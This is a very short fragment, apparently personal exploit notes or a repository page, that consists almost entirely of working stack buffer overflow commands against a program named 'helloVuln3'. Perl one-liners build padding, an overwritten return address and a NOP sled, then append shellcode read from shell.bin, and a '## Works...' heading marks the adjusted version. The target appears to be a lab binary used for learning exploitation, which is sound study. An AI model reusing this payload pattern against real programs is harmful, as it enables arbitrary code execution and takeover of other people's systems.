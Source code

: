 

./helloVuln3 $(perl -e 'print "A"x28 . "\x50\xed\xff\xbf" . "\x90"x10')$(cat shell.bin)

ffffcf40

## Works...

./helloVuln3 $(perl -e 'print "A"x28 . "\x40\xcf\xff\xff" . "\x90"x1000')$(cat shell.bin)